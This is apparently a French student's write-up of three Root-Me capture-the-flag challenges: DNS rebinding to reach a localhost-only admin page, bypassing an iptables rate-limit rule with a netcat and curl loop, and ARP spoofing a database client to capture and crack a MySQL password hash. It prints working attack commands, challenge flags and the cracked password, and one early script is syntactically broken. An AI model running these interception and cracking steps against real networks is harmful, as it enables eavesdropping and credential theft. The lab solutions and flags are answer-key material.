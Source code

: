 # TP6 : Un peu de root-me

- [I. DNS Rebinding](#i-dns-rebinding)
- [II. Netfilter erreurs courantes](#ii-netfilter-erreurs-courantes)
- [III. ARP Spoofing Ecoute active](#iii-arp-spoofing-ecoute-active)



## I. DNS Rebinding

🌞 **Write-up de l'épreuve**

[Code source web](code-source.html)


En executant ce script, nous arrivons sur une page web avec, une page Admin bloquer, et l'utilisation basique qui est de recherche des sites via des URL.

Dans le code source ci-dessous : 

Nous comprenons que pour se connecter à la page admin, nous devons avoir une IP bien spécifique : `127.0.0.1`

En se renseignant sur le WEB, l'attaque DNS rebinding vise à spammer des requêtes DNS avec un TTL très bas permettant de tromper le site avec une IP différente.

Mettons cela en place, on trouve un tool sur internet : [DNS rebinding](https://lock.cmpxchg8b.com/rebinder.html)

Nous cherchons donc à crée un url utilisable, mais qui à l'IP pour se log en Admin, nous obtenons cela : ```7f000001.c0a80001.rbndr.us```

Ainsi il ne nous reste plus qu'à le rentrer dans la barre de recherhce incluse dans le site avec le bon lien vers la page admin : ```7f000001.c0a80001.rbndr.us:54022/admin```

Puis il faut spammmmmmm 

Et nous obtenons le flag !!!


## II. Netfilter erreurs courantes

🌞 **Write-up de l'épreuve**

[Code du Firewall](CodeFirewall.sh)


Même but pour cette épreuve, nous devons accéder à une page bloquer par le firewall. Lien de cette page avec le port 54017.

Lors de l'analyse de code nous pouvons s'apercevoir que plusieurs règle de connexion à la page bloqué sont en ACCEPT et d'autre en DROP.

Ici notre but va donc être de réaliser une tâche en ACCEPT pour pouvoir se connecter à la page bloquer.

Plusieur façon sont possible, comme usurper la whitlist ou autre mais nous nous allons nous intérreser à cette ligne précisement : ```IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 20 -j DROP ```

Ici on voit que si on envoie plus de 20 paquet et bien on est autoriser à se log à la page.

Créons donc un script pour essayer si cela fonctionne : 

```
For i in {1..20}; do netcat challenge01.root-me.org 54017 & do | http://challenge01.root-me.org:54017/reseau/ch17
```  
Rien de bien compliqué donc, un script qui crée une boucle pour aller jusqu'à 20 et qui éxécute en fond un netcat sur le port 54017, puis un curl de l'URL voulu.

### Réponse 

```
matis@thinkpad:~$ for i in {1..20}; do netcat challenge01.root-me.org 54017 & done | curl http://challenge01.root-me.org:54017/reseau/ch17

Nicely done:)

There are probably a few things the administrator was missing when writing this ruleset:

    1) When a rule does not match, the next one is tested against

    2) When jumped in a user defined chain, if there is no match, then the
       search resumes at the next rule in the previous (calling) chain

    3) The 'limit' match is used to limit the rate at which a given rule can
       match: above this limit, 1) applies

    4) When a rule with a 'terminating' target (e.g.: ACCEPT, DROP...) matches
       a packet, then the search stops: the packet won't be tested against any 
       other rules
    

The flag is: saperlipopete
```

## III. ARP Spoofing Ecoute active

🌞 **Write-up de l'épreuve**

Pour ce challenge, le but va ếtre de réaliser un Man in the Middle entre une DB et un client afin de récuperer le mot de passe et de se connecte a la DB.

Pour commencer on nous allons si'dentifier : 

```
root@fac50de5d760:~# apt install iproute2
root@fac50de5d760:~#ip a

root@fac50de5d760:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
root@fac50de5d760:~#
```

Nous sommes identifié en 127.18.0.2/16

Faisons un petit scan de port : 

```
root@fac50de5d760:~#apt install nmap
```
[Scan nmap](scan-nmap.sh)

Ici plusieurs chose apparaisse, le client en (172.18.0.3) et la DB en (172.18.0.4).
Au passage la DB a le port 3306 ouvert.

Lancer notre spoofing avec arp-spoof : 

```
root@fac50de5d760:~#apt install dnsiff

root@fac50de5d760:~# arpspoof -t 172.18.0.3 -r 172.18.0.4
```

Ici la commande viens empoisonner la table arp du client en faisant croire que nous sommes la DB. 
Maintenant il est donc possible de recevoir les échanges entre le client et la db.

Pour capturer cela, on va faire un tcp dump sur le port 3306 de la db ouvert souvenez-vous.

```
root@fac50de5d760:~# apt install tcpdump
```

[Lien du dump](tcpdump.MD)

Par faciliter pour le lecteur j'ai mis que la ligne qui contient le flag.

OK, premiere partie de faite et il nous reste la plus facile et plus dure en même temps :)

Nous pouvons maintenant brut force le mot de passe, cela serait très rapide et efficace mais nous nous voulons aller plus loin...

Je mets quand même cette partie : 

On installe hydra, petite commande et hop !

[Brut force](Brut-force.sh)

### Deuxieme façon de trouver le mot de passe 

Dans le dump tcp reçu entre le client et la DB, nous voyons appairaitre le "salt" du mot de passe ainsi que son sha1, c'est une partie très interréssante car en faisant des recherches nous réussissons à trouver la concaténations logique du sha1 sur "mysql_native_password"

Ca donne ça :  ```x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))```

Et en comprenant cela nous pouvons ainsi le brut force avec cette commande : 

```
matis@thinkpad:~$ odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:09791b4f3f1611084f1f581f3935400635333474 Bureau/root-me/rockyou.txt 6d33d57851fc677eaf4e4ffc7401b074300d472b
[*] loading file...
[*] found heyheyhey=6d33d57851fc677eaf4e4ffc7401b074300d472b
[*] all hashes found, shutdown requested
[*] done, tried 4700 passwords
```

Ici plusieurs choses sont importantes à comprendre, tout d'abord pour obtenir le salt du mot de passe, nous devions exporter le tcpdump en local avec la commande : 

```
matis@thinkpad:~$ sudo scp -P 22222 root@ctf20.root.me.org:/root/toto.pcap
```

Et dans la commande pour brut force le mot de passe on se rend compte que le salt est en héxadécimale, donc sur le dump nous devions récuperer l'héxa du salt qui doit faire exactement 20 octets (NE PAS SE TROMPER...)

Voilà voilà, le mot de passe est donc heyheyhey.